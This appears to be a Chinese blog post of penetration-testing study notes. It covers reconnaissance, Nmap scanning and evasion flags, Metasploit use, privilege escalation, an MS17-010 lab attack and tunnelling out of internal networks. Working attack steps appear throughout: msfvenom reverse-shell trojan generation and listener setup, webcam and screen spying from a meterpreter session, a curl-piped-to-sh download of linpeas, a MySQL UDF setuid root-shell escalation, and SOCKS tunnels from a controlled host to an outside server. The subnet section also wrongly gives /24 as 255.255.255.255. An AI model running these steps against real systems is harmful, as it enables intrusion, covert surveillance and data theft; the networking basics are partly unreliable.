

# Pentesting Learning Record

越来越多的线下赛开始考察实战渗透了，一直想学渗透来着

但无奈一直被耽搁，回过头来的时候发现自己已经要退役了
<!--more-->

## 前置基础知识

### 基础概念名词

#### 域名

```bash
#一个例子：
www.example.com
com是顶级域名
example是二级域名
www是子域名
```

#### 什么是DNS

```
DNS（Domain Name System）是互联网中用于将域名解析为IP地址的系统。DNS工作原理是将域名转换为IP地址，以便能够在Internet上找到所需的网络资源。当您在Web浏览器中输入一个域名时，例如www.example.com，浏览器将发送一个DNS查询请求到DNS服务器，该服务器将返回与该域名相关联的IP地址。
DNS服务器是一种特殊的服务器，它维护着一个大型的分层的域名系统数据库。这个数据库分层结构允许DNS服务器从顶部开始查找域名，并根据域名的结构在下一级DNS服务器中查找更具体的信息，直到找到与域名相关联的IP地址。
使用DNS有许多好处。首先，它允许人们使用容易记忆的域名来访问Web资源，而不是使用难以记忆的IP地址。其次，它允许通过更改DNS记录来轻松地将网站移动到新的IP地址。最后，它允许管理员轻松地控制哪些IP地址与特定的域名相关联，从而允许在网络上更好地管理资源。
```

#### 本地 HOSTS 与 DNS 的关系？

```
HOSTS是本地计算机上的一个文件，它包含了一个IP地址和一个或多个域名的对应关系。在计算机进行域名解析时，它会首先检查HOSTS文件中是否包含了所需的域名和对应的IP地址。如果存在，则会直接使用该IP地址，而不会发送DNS查询请求。因此，HOSTS文件可以被用于在本地计算机上设置静态的域名解析。

DNS则是一种分布式的域名解析系统，它包含了全球范围内的DNS服务器和域名系统。当计算机进行域名解析时，它会向本地DNS服务器发送一个查询请求，该服务器会递归地查找所需的IP地址，并返回给计算机。DNS系统可以提供更广泛的域名解析服务，同时也可以缓存已经解析过的域名，以提高解析速度。

在实际应用中，通常先检查本地HOSTS文件是否存在要解析的域名，如果不存在再通过DNS查询获取IP地址。因此，HOSTS和DNS是互补的系统，它们可以一起使用来提供更高效的域名解析服务。
```

#### CDN 是什么？与 DNS 的关系？

```
CDN（Content Delivery Network）是一种通过分布式节点技术来提高Web内容（如HTML、CSS、JavaScript、图片、视频等）传输速度的网络架构。CDN系统通常由多个位于不同地理位置的节点服务器组成，每个节点服务器上存储着相同的Web内容。当用户请求某个Web页面时，请求会被自动转发到离用户最近的节点服务器，从而加速页面的加载速度和提高用户体验。

CDN与DNS之间有紧密的关系，因为在用户请求Web页面时，首先会进行域名解析，确定该页面所在的服务器IP地址。如果该网站使用CDN，那么它的DNS记录通常会指向CDN的负载均衡服务器，而不是具体的Web服务器IP地址。在用户发起请求后，CDN的负载均衡服务器会根据用户所在的地理位置、网络带宽等因素，选择距离用户最近、性能最佳的节点服务器，将请求转发给该节点服务器进行处理，从而加速Web页面的传输。

总之，CDN可以通过分布式节点技术来提高Web内容传输速度，而DNS则可以指向CDN的负载均衡服务器，使得CDN可以根据用户的位置和网络带宽等因素，选择最优的节点服务器，从而提高Web页面的加载速度
```

#### 常见的 DNS 安全攻击有哪些？

```
以下是几种常见的DNS安全攻击：

1.DNS劫持：攻击者通过劫持DNS查询，篡改返回的DNS响应，导致用户访问的是恶意站点，从而实现钓鱼、恶意软件分发等攻击。
2.DNS缓存投毒：攻击者利用DNS缓存服务器的漏洞，向缓存服务器注入伪造的DNS响应，导致缓存服务器上的所有用户都被指向恶意站点，从而实现大规模的攻击。
3.DNS重定向：攻击者通过篡改DNS响应，将合法域名的解析结果指向恶意站点，从而实现中间人攻击。
4.DNS欺骗：攻击者向DNS服务器发送伪造的DNS请求，使其误认为该请求来自授权用户，进而返回伪造的DNS响应，从而实现DNS欺骗。
5.DNS放大攻击：攻击者利用存在放大效应的DNS协议（如DNS区域传送、DNS递归查询等），向DNS服务器发送大量的恶意请求，从而使DNS服务器发送大量的响应数据包，导致网络拥塞或服务瘫痪。
以上是几种常见的DNS安全攻击，为了保护DNS安全，可以采取一些措施，例如使用可信的DNS服务器、部署DNSSEC等。
```

#### 后门

什么是后门？有那些后门？

```
后门（Backdoor）是指一种未经授权的、通常是恶意的程序代码，被嵌入到计算机系统或应用程序中，以便攻击者可以利用它在系统中获得未经授权的访问权限。通常情况下，后门是由攻击者利用漏洞或者其他手段，在系统中植入的，以便在之后能够随时访问系统。

以下是一些常见的后门类型：

1.用户账号后门：攻击者利用系统或应用程序的漏洞，添加一个可以用于登录系统的特殊账户，然后就可以通过该账户访问系统的所有资源。

2.网络服务后门：攻击者利用网络服务软件的漏洞，将特定的代码嵌入到该服务中，然后就可以通过该服务来访问系统的其他资源。

3.操作系统后门：攻击者利用操作系统软件的漏洞，植入恶意代码以获取对操作系统的访问权限。

4.应用程序后门：攻击者利用应用程序的漏洞，植入恶意代码以获取对应用程序的访问权限。

5.物理后门：攻击者利用硬件设备的漏洞，植入恶意代码以获取对系统的访问权限，例如在计算机主板上添加特殊的芯片。

由于后门的性质比较隐蔽，所以检测和防范后门攻击一直都是网络安全工作者关注的重点。为了防范后门攻击，需要及时更新系统和应用程序的安全补丁，定期进行安全审计和漏洞扫描，并采取适当的安全措施，例如强化访问控制和加密技术等。
```

#### 数据包拓展

HTTP响应码

```
以下是一些常见的HTTP响应码：

1xx - 信息性状态码：服务器已接收到请求，正在处理中
100 - 继续：客户端应该继续发送请求
101 - 切换协议：服务器正在切换协议，例如从HTTP到WebSocket

2xx - 成功状态码：服务器已成功处理请求
200 - OK：请求已成功处理
201 - Created：请求已成功处理并创建了新资源
204 - No Content：请求已成功处理，但没有返回任何内容

3xx - 重定向状态码：客户端需要执行额外的操作以完成请求
301 - Moved Permanently：所请求的资源已永久移动到新位置
302 - Found：所请求的资源已临时移动到新位置
304 - Not Modified：客户端可以使用缓存的版本

4xx - 客户端错误状态码：客户端发送的请求有误或无法完成请求
400 - Bad Request：请求有错误，服务器无法理解
401 - Unauthorized：需要进行身份验证
403 - Forbidden：禁止访问所请求的资源
404 - Not Found：所请求的资源不存在

5xx - 服务器错误状态码：服务器无法完成请求
500 - Internal Server Error：服务器遇到了一个意外的错误
502 - Bad Gateway：服务器充当网关或代理时，从上游服务器接收到无效响应
503 - Service Unavailable：服务器当前无法处理请求，通常是由于维护或过载造成的
```


### 通信基础知识

#### 一、ip段/数字-如192.168.0.1/24是什么意思？

后面这个24表示了我们的网络号的位数，也就是子网掩码中前24位为1。
192.168.1.1 /24 这个24就是网络号是24位。
即它的子网掩码是255.255.255.255
172.16.10.33/27 中的/27
也就是说子网掩码是255.255.255.224 即前27位全是1。
即子网掩码是：255.255.255.224

#### 二、一个C类的ip段中，有多少个可用的ip地址？

一个C类地址能容纳下254台主机
192.168.1.0-192.168.1.255，子网掩码为24位
从0-255总共有256个ip地址
其中其中0是网络ID（网段），255是广播地址
可用的ip地址只有：
192.168.1.1-192.168.1.254，共254个

网络地址和广播地址的用途：
网络地址：是识别网络ID用的，告诉你ip地址的网段。
广播地址：是专门用于同时向网络中所有工作站进行发送的一个地址，不能被路由转发。

### 信息收集

#### whois查询

爱站工具网
https://whois.aizhan.com/

站长之家
https://whois.chinaz.com/

VirusTotal - Ho  me
https://www.virustotal.com/gui/home/upload

#### 备案信息查询

ICP备案查询网
https://www.beianx.cn/

天眼查
https://beian.tianyancha.com/

站长工具
https://icp.chinaz.com/

工业和信息化部
https://www.beian.gov.cn/portal/registerSystemInfo

#### 收集敏感信息

使用搜索引擎的搜索语法

IP地址——使用ping指令

网站指纹识别

网站容器

脚本类型

数据库类型

可以使用nmap扫描端口进行判断

#### 收集子域名信息

**谷歌语法**

```
site:ms08067.com
```

**子域名爆破（在线网站&本地工具）**

网上搜在线爆破的网站即可

 **Maltego**

根据DNS进行检测

#### 收集常用端口信息

常用工具：
Nmap
Masscan
Zmap
御剑高速TCP端口扫描工具
Shodan:https://www.shodan.io/
在线端口扫描网站

#### 指纹识别

本地搭建开源工具

在线识别网站

手工探测

#### 查找真实IP

**在线网站Ping一下**

https://ping.chinaz.com/
https://site.ip138.com/
https://ipchaxun.com/

**查找子域名**

一般子域名不会绑CDN

**泄露文件**

phpinfo、git泄露等

**网络空间搜索引擎**

fofa：https://fofa.info/

shodan：https://www.shodan.io/

**查询旁站IP**

**证书查询**

**内部邮箱**

#### 收集敏感目录文件

常用工具

7kbscan

御剑

dirsearch

dirmap

Burp爬虫

AWVS

Nessus

#### 社会工程学

#### 社工库

常见思路

QQ&QQ邮箱

支付宝 --> QQ邮箱 --> 真实姓名

图片 --> 定位

### 黑客常用端口总结

|    端口     |            服务             |           入侵方式           |
| :---------: | :-------------------------: | :--------------------------: |
|     21      | ftp/tftp/vsftpd文件传输协议 |     爆破/嗅探/溢出/后门      |
|     22      |         ssh远程连接         |       爆破/openssh漏洞       |
|     23      |       Telnet远程连接        |       爆破/嗅探/弱口令       |
|     25      |        SMTP邮件服务         |           邮件伪造           |
|     53      |       DNS域名解析系统       |  域传送/劫持/缓存投毒/欺骗   |
|    67/68    |          dhcp服务           |          劫持/欺骗           |
|     110     |            pop3             |          爆破/嗅探           |
|     139     |          Samba服务          | 爆破/未授权访问/远程命令执行 |
|     143     |          Imap协议           |             爆破             |
|     161     |          SNMP协议           |    爆破/搜集目标内网信息     |
|     389     |      Ldap目录访问协议       |    注入/未授权访问/弱口令    |
|     445     |             smb             |      ms17-010/端口溢出       |
| 512/513/514 |       Linux Rexec服务       |       爆破/Rlogin登陆        |
|     873     |          Rsync服务          |     文件上传/未授权访问      |
|    1080     |           socket            |             爆破             |
|    1352     |    Lotus domino邮件服务     |        爆破/信息泄漏         |
|    1433     |            mssql            |      爆破/注入/SA弱口令      |
|    1521     |           oracle            | 爆破/注入/TNS爆破/反弹shell  |
|    2049     |           Nfs服务           |           配置不当           |
|    2181     |        zookeeper服务        |          未授权访问          |
|    2375     |      docker remote api      |          未授权访问          |
|    3306     |            mysql            |          爆破/注入           |
|    3389     |       Rdp远程桌面链接       |        爆破/shift后门        |
|    4848     |       GlassFish控制台       |        爆破/认证绕过         |
|    5000     |      sybase/DB2数据库       |        爆破/注入/提权        |
|    5432     |         postgresql          |     爆破/注入/缓冲区溢出     |
|    5632     |       pcanywhere服务        |       抓密码/代码执行        |
|    5900     |             vnc             |        爆破/认证绕过         |
|    6379     |         Redis数据库         |       未授权访问/爆破        |
|  7001/7002  |          weblogic           |  java反序列化/控制台弱口令   |
|   80/443    |         http/https          |     web应用漏洞/心脏滴血     |
|    8069     |         zabbix服务          |      远程命令执行/注入       |
|    8161     |          activemq           |        弱口令/写文件         |
|  8080/8089  |     Jboss/Tomcat/Resin      |  爆破/PUT文件上传/反序列化   |
|  8083/8086  |          influxDB           |          未授权访问          |
|    9000     |           fastcgi           |         远程命令执行         |
|    9090     |       Websphere控制台       |   爆破/java反序列化/弱口令   |
|  9200/9300  |        elasticsearch        |         远程代码执行         |
|    11211    |          memcached          |          未授权访问          |
| 27017/27018 |           mongodb           |       未授权访问/爆破        |

#### telnet

```bash
telnet xxx.xxx.xxx.xxx
#有时候有些账户不需要密码
```

## 常用工具的使用方法

### Nmap的使用

#### 扫描目标主机

```bash
# 扫描单个对象
nmap 10.168.1.190
# 扫描多个对象
nmap 10.168.1.190 10.168.1.121
nmap 10.168.1.1-100
# 扫描目标地址所在的某个网段
nmap 10.168.1.1/24
# 扫描目标主机所在C段的存活
nmap -sP 10.168.1.190/24
# 探测目标主机的防火墙状态
nmap 127.0.0.1 -sF -T4
```

#### 从文件读入待扫描的主机或网络列表

```bash
touch inputfile
echo '192.168.x.x' > inputfile
nmap -iL inputfile
```

#### 随机选择目标

```bash
-iR <num hosts> #随机选择num个作为目标
```

#### 排除目标

```bash
--exclude host1,host2
--excludefile exclude_file
```

#### 主机发现

```bash
-sL: 简单列表扫描
-sn: 不进行端口扫描，仅发现主机
-Pn: 将所有主机视为在线，跳过主机发现
-PS/PA/PU/PY[portlist]: 使用TCP SYN/ACK, UDP or SCTP对所给端口进行主机发现
-PE/PP/PM:ICMP回显、时间戳和网络掩码请求发现探测
-PO[protocol list]: IP 协议 Ping
-n/-R: 从不进行DNS解析/始终解析[默认值：有时]
–dns-servers <serv1[,serv2],…>:指定自定义DNS服务器
–system-dns: 使用操作系统的DNS解析程序
–traceroute: 跟踪每个主机的跃点路径
```

#### 扫描类型

```
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon 扫描
-sU: UDP 扫描
-sN/sF/sX: TCP Null, FIN, and Xmas 扫描
–scanflags <flags>: 自定义TCP扫描标志
-sI <zombie host[:probeport]>: Idle 扫描
-sY/sZ: SCTP INIT/COOKIE-ECHO 扫描
-sO: IP 协议扫描
-b <FTP relay host>: FTP反弹扫描
```

#### 端口指定和扫描顺序

```bash
-p <port ranges>: 仅扫描指定的具体端口 例如: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
–exclude-ports <port ranges>: 排除这些端口
-F: 快速模式，比默认的端口扫描的更少
-r: 连续扫描端口，不要随机化
–top-ports <number>: 扫描<number>个最常见的端口
–port-ratio <ratio>: 扫描比<ratio>更常见的端口
使用–top-ports来扫描常用top5端口
```

#### 端口的六大状态

```
open
closed
filtered
unfiltered
open|filtered
closed|filtered
```

#### 服务/版本发现

```
-sV: 探测打开的端口，确定服务/版本信息
–version-intensity <level>:从0到9（尝试所有探测）
–version-light:限制为仅对最可能的进行探测（强度2）
–version-all: 尝试所有探测（强度9）
–version-trace: 显示详细的版本扫描活动（用于调试）
```

#### 脚本扫描

```
-sC: 相当于–script=default
–script=<Lua scripts>: <Lua scripts> 是以逗号分隔的目录、脚本文件或脚本类别列表
–script-args=<n1=v1,[n2=v2,…]>: 为脚本提供参数
–script-args-file=filename: 在文件中提供NSE脚本参数
–script-trace: 在文件中提供NSE脚本参数显示所有发送和接收的数据
–script-updatedb: 更新脚本数据库
–script-help=<Lua scripts>: 展示脚本的帮助
```

#### 操作系统版本

```
-O: 操作系统探测
–osscan-limit: 将操作系统检测限制在有希望的目标上
–osscan-guess: 更积极地猜测操作系统
```

#### 时间与性能

```
选项以秒为单位，或附加“ms”（毫秒），“s”（秒）、“m”（分钟）、“h”（小时）设置为值(例如30m)。
-T<0-5>: 设置计时模板（越高速度越快）
–min-hostgroup/max-hostgroup <size>: 并行主机扫描组大小
–min-parallelism/max-parallelism <numprobes>: 并行化探测
–min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: 指定探测往返时间。
–max-retries <tries>:限制端口扫描探测重新传输的次数为<tries>。
–host-timeout <time>:过了这么<time>长时间就放弃了
–scan-delay/–max-scan-delay <time>:调整探测之间的延迟为<time>
–min-rate <number>: 发送数据包的速度不低于每秒<number>个
–max-rate <number>: 发送数据包的速度不超过每秒<number>个

模板名称有paranoid (0)、sneaky (1)、polite (2)、normal(3)、 aggressive (4)和insane (5)。前两种模式用于IDS躲避，Polite模式降低了扫描 速度以使用更少的带宽和目标主机资源。默认模式为Normal，因此-T3 实际上是未做任何优化。Aggressive模式假设用户具有合适及可靠的网络从而加速扫描。Insane模式假设用户具有特别快的网络或者愿意为获得速度而牺牲准确性。

这个一般设置模板为4，很少一个个去设置。
```

```
nmap -sV -O -T4 192.168.1.xxx
```

#### 防火墙/入侵防御 绕过

```
-f; --mtu <val>: 片段数据包（可选择w/给定MTU）
-D <decoy1,decoy2[,ME],…>: 用诱饵掩盖扫描
-S <IP_Address>: 欺骗源地址
-e <iface>: 使用指定的接口
-g/–source-port <portnum>: 使用给定的端口号
–proxies <url1,[url2],…>: 通过HTTP/SOCKS4代理中继连接
–data <hex string>: 将自定义有效负载附加到发送的数据包
–data-string <string>: 向发送的数据包附加自定义ASCII字符串
–data-length <num>: 向发送的数据包附加随机数据
–ip-options <options>:使用指定的ip选项发送数据包
–ttl <val>: 设置IP生存时间字段
–spoof-mac <mac address/prefix/vendor name>: 伪造你的MAC地址
–badsum: 使用伪TCP/UDP/SCTP校验和发送数据包
可以使用-S --spoof-mac来伪造MAC地址，当然， 最重要的是去除Nmap的流量特征，见参考。
没有欺骗前的数据包
```

#### 输出

```
-oN/-oX/-oS/-oG <file>: 分别以普通文本文件、XML、ScRipTKIdd|3oUTpuT和可Grep格式输出到给定文件路径。
-oA <basename>:同时以三种主要格式输出（分别以<basename>.nmap、<basename>.gnmap、<basename>.xml保存）
-v: 增加详细程度（使用-vv或更多以获得更大效果）
-d: 提高调试级别（使用-dd或更多以获得更大的效果）
–reason: 显示端口处于特定状态的原因
–open: 仅显示打开（或可能打开）的端口
–packet-trace:显示发送和接收的所有数据包
–iflist: 打印主机接口和路由（用于调试）
–append-output: 附加到指定的输出文件，而不是删除指定的输出文件
–resume <filename>: 恢复中止的扫描
–stylesheet <path/URL>: 将XML输出转换为HTML的XSL样式表
–webxml: 请参考Nmap.Org中的样式表以获取更具可移植性的XML
–no-stylesheet: 防止XSL样式表与XML输出关联
一般情况下，我们就是输出到了控制台，也可以输出到文件进行保存，方便之后的分析。
这里使用xml格式作为演示，下方参考的平衡准确率和速率那篇文章用的-oG，方便使用grep命令等进行文件操作，当然使用xml保存也可以用一下xml解析包对文件进行处理。 -oS基本不用。
```

#### 杂项

```
-6: 启用IPv6扫描
-A: 启用操作系统检测、版本检测、脚本扫描和跟踪路由
–datadir : 指定自定义Nmap数据文件位置
–send-eth/–send-ip: 使用原始以太网帧或IP数据包发送
–privileged:假设用户具有完全特权
–unprivileged: 假设用户缺少原始套接字权限
-V: 打印版本号
-h:打印此帮助摘要页面
```

#### 参数指导

```
1.去除Nmap流量特征，重新编译
2。使用主机发现一节的-sn等进行主机发现
3。使用端口选项一节的-p添加端口
4。使用扫描技术一节的-sS、-sT、-sU等添加技术（根据扫描的目标和端口选择）
5.使用版本发现一节的-sV进行版本的详细扫描
6.使用操作系统探测一节的-O进行操作系统扫描
7.使用时间与性能一节的-T4进行快速扫描
8.使用脚本一节的nse文件名，或自己脚本来获取更多内容
9.使用防火墙绕过一节的-S -e --spoof-mac进行欺骗
10.使用输出一节的-oN、-oX等进行输出
```

#### 一个比较好的针对owaspbwa（网站）的nmap扫描参数

```bash
nmap -p 80 -sS -sV -O -T4 -S 192.168.31.54 -e eth0 --spoof-mac cisco --script=http-title 192.168.31.129 -oX target.xml
```

### MSF的使用

#### 查询模块

```bash
search portscan
search smb
```

#### 使用模块

```bash
use 5
#展示选项,标为yes的都是需要填写的
show options
#设置参设
set rhosts xxx.xxx.xxx.xx
#运行
run或者exploit
#返回上一级菜单
back
#查看攻击载荷
show payloads
#设置攻击载荷
set payload cmd/unix/reverse
#设置本地ip
set lhost 10.168.1.180
#查看活跃的session
sessions
#进入指定的session,例如 session1
sessions -i 1
#将session置于后台
background
#使用shell模式
shell
```

#### 在msf中使用nmap(需要root权限)

```bash
sudo msfconsole 
nmap -O -Pn 47.120.0.245
```

#### msf生成木马

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.58.133 LPORT=1234 -f exe > /home/kali/hacker.exe
```

#### msf设置监听

```
search multi/handler
```

#### msf设置进程迁移

```
migrate pid
run post/windows/manage/migrate
```

```bash
#检查是否运行在虚拟机上
run post/windows/gather/checkvm
#关闭杀毒软件 
run post/windows/gather/checkvm
#查看登录的用户
run post/windows/gather/enum_logged_on_users
#获取桌面截图
load espia
screengrab
```

#### 使用MSF控制Windows电脑

**生成可执行木马**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<本地ip> LPORT=<本地端口号> –f exe –o <文件名>.exe
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.168.1.173 LPORT=4444 –f exe –o shell.exe
```

**配置监听模块**

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.168.1.173
set lport 4444
run -z -j
# 查看上钩的用户
sessions
# 选择需要控制的用户
sessions -i 1
```

**权限提升**

```bash
# 查看当前权限
getuid
# 尝试提权，可能会有报错但是也是成功的
getsystem
```

**监控对方电脑屏幕**

```bash
# 截屏
screenshot
# 实时监控对方电脑屏幕
screenshare
```

**开启摄像头**

```bash
# 查看对方电脑上的摄像头
webcam_list
# 用摄像头拍照
web_cam snap
# 用摄像头开启实时视频聊天
web_cam stream
```

### PEASS-ng的使用

支持Windows、MacOS、Linux

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/download/20231002-59c6f6e6/linpeas.sh | sh
# -L 是跟踪重定向
```

## 权限提升

### Linux提权

#### Mysql-UDF提权

```bash
searchsploit mysql udf -m 1518
 * Usage:
 * $ id
 * uid=500(raptor) gid=500(raptor) groups=500(raptor)
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
 * /tmp/rootbash -
```

### Windows提权

TODO...

## 常用的漏洞

### MS17-010（永恒之蓝）漏洞

攻击机：kali_Linux 2023
受害机：WindowsXP-SP3


首先使用nmap扫描存活

```bash
nmap 192.168.58.0/24
```

发现目标主机445端口打开

```bash
445/tcp open  microsoft-ds
```

然后进入MSF

在漏洞库中搜索漏洞模块

```bash
search ms17_010
use 0
```



设置payload

```bash
set rhost 192.168.58.141
```


使用 run 命令执行payload,发现目标主机是32位的系统


back 返回上一层，然后使用ms17_010_psexec模块


设置好参数后执行 run 命令即可攻击成功


若使用shell命令发现存在中文乱码的情况

使用 chcp 65001 命令即可解决

若要想从目标主机shell退出到meterpreter，我们只需输入：exit

输入background命令即可回到模块菜单，session将被置于后台

可以使用 sessions 命令查看当前有几个活跃的 session

输入sessions {id} 即可进入指定的session

## 内网穿透

### frp内网穿透

配置文件内容如下

```
# frpc.ini
[common]
server_addr = 自己公网服务器地址
server_port = 7000 # 远程服务器的frp监听端口

[frp]
type = tcp
remote_port = 6000
plugin = socks5
```

```
# frps.ini
[common]
bind_port = 7000
```

在被控的内网终端上运行以下命令

```
./frpc -c ./frpc.ini
```

在公网服务器上开放6000和7000这两个端口，并运行以下命令

```
./frps -c ./frps.ini
```

这样被控主机就可以连接公网服务器的7000端口，并把内网流量通过6000端口转发出来

然后使用 proxifier 配置代理服务 公网服务器ip 6000 端口即可

### ew内网穿透

在公网服务器上开放6000和7000这两个端口，并运行以下命令

```
./ew_for_linux64 -s rcsocks -l 6000 -e 7000
```

在被控的内网终端上运行以下命令

```
./ew_for_linux64 -s rssocks -d 8.130.93.84 -e 7000
```

然后使用 proxifier 配置代理服务 公网服务器ip 6000 端口即可

### proxychains设置代理

编辑好 proxychains.conf 后直接使用即可

```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4        127.0.0.1 9050
socks5 8.130.93.84 6000
```

例如：

proxychains zsh

proxychains msfconsole


---

> Author: [Lunatic](https://goodlunatic.github.io)  
> URL: https://goodlunatic.github.io/posts/417c7ba/  

